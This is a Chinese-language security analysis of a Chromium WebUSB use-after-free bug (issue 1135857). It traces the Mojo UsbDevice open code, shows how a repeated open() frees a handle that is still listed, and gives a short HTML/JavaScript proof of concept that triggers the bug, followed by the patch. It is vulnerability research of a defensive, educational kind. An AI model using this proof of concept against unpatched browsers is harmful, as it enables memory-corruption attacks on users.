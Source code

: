 https://bugs.chromium.org/p/chromium/issues/detail?id=1135857
### 分析

先简单跟踪一遍UsbDevice接口中open的流程：
它在DeviceImpl::Open中被调用
``` c++
void DeviceImpl::Open(OpenCallback callback) {
  if (device_handle_) {
    std::move(callback).Run(mojom::UsbOpenDeviceError::ALREADY_OPEN);
    return;
  }

  if (!device_->permission_granted()) {
    device_->RequestPermission(
        base::BindOnce(&DeviceImpl::OnPermissionGrantedForOpen,
                       weak_factory_.GetWeakPtr(), std::move(callback)));
    return;
  }

  device_->Open(base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));
}


const scoped_refptr<device::UsbDevice> device_;
```

```
base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));

using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```
DeviceImpl::OnOpen作为OpenCallback callback传入UsbDeviceImpl::Open，可以看到OpenCallback的定义，这里表示他在被回调时需要通过run去提供一个scoped_refptr<UsbDeviceHandle>，所以这里在base::BindOnce将其其余参数做了绑定。

```c++
void UsbDeviceImpl::Open(OpenCallback callback) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<base::SequencedTaskRunner> blocking_task_runner =
      UsbService::CreateBlockingTaskRunner();
  blocking_task_runner->PostTask(
      FROM_HERE,
      base::BindOnce(&UsbDeviceImpl::OpenOnBlockingThread, this,
                     std::move(callback), base::ThreadTaskRunnerHandle::Get(),
                     blocking_task_runner));
}
```
接着就是通过PostTask来创建任务，这两个函数都不是重点，我们重点看后面的函数。
```c++
void UsbDeviceImpl::OpenOnBlockingThread(
    OpenCallback callback,
    scoped_refptr<base::TaskRunner> task_runner,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  base::ScopedBlockingCall scoped_blocking_call(FROM_HERE,
                                                base::BlockingType::MAY_BLOCK);
  libusb_device_handle* handle = nullptr;
  const int rv = libusb_open(platform_device(), &handle);
  if (LIBUSB_SUCCESS == rv) {
    ScopedLibusbDeviceHandle scoped_handle(handle,
                                           platform_device_.GetContext());
    task_runner->PostTask(
        FROM_HERE,
        base::BindOnce(&UsbDeviceImpl::Opened, this, std::move(scoped_handle),
                       std::move(callback), blocking_task_runner));
  } else {
    USB_LOG(EVENT) << "Failed to open device: "
                   << ConvertPlatformUsbErrorToString(rv);
    task_runner->PostTask(FROM_HERE,
                          base::BindOnce(std::move(callback), nullptr));
  }
}
```

可以看到在UsbDeviceImpl::Opened中，他创建了一个新的device_handle，并传入了handles。
```c++
void UsbDeviceImpl::Opened(
    ScopedLibusbDeviceHandle platform_handle,
    OpenCallback callback,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<UsbDeviceHandle> device_handle = new UsbDeviceHandleImpl(
      this, std::move(platform_handle), blocking_task_runner);
  handles().push_back(device_handle.get());
  std::move(callback).Run(device_handle);
}


using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```

回调DeviceImpl::OnOpen，在这个函数中有一个很重要的内容：self->device_handle_ = std::move(handle); 这里存在一个问题，如果频繁调用DeviceImpl::OnOpen，就会导致旧的device_handle_被析构，但是他并没清除handles中push的device_handle。
```c++
void DeviceImpl::OnOpen(base::WeakPtr<DeviceImpl> self,
                        OpenCallback callback,
                        scoped_refptr<UsbDeviceHandle> handle) {
  if (!self) {
    if (handle)
      handle->Close();
    return;
  }

  self->device_handle_ = std::move(handle);
  if (self->device_handle_ && self->client_)
    self->client_->OnDeviceOpened();

  std::move(callback).Run(self->device_handle_
                              ? mojom::UsbOpenDeviceError::OK
                              : mojom::UsbOpenDeviceError::ACCESS_DENIED);
}
```

当设备被拔出或移除时，就会调用下面的函数，这时handle->Close();就会触发uaf。
```
void UsbDevice::OnDisconnect() {
  // Swap out the handle list as HandleClosed() will try to modify it.
  std::list<UsbDeviceHandle*> handles;
  handles.swap(handles_);
  for (auto* handle : handles)
    handle->Close();
}
```

小结一下：
主要是由于UsbDeviceImpl::Open函数没有做任何限制导致可以连续调用，这样的话就会导致self->device_handle_ = std::move(handle);将旧的scoped_refptr指针（device_handle_）给析构掉。


poc：

```
<html>
<head>
  <script src="./mojo_bindings.js"></script>
  <script src="./third_party/blink/public/mojom/usb/web_usb_service.mojom.js"></script>
<script>
   var wus_ptr = new blink.mojom.WebUsbServicePtr();
   Mojo.bindInterface(blink.mojom.WebUsbService.name,mojo.makeRequest(wus_ptr).handle);
   var ud_ptr = new device.mojom.UsbDevicePtr();

   wus_ptr.getPermission([]).then(result =>{
       wus_ptr.getDevices().then(result =>{
           wus_ptr.getDevice(result.results[0].guid, mojo.makeRequest(ud_ptr));
           ud_ptr.open();
           ud_ptr.open();
       });
   });
</script>
</head>
</html>
```

补丁：

https://chromium-review.googlesource.com/c/chromium/src/+/2454846

![](./img/1.png)

这里增加了opening_这一check，避免了open之后重复多次open。

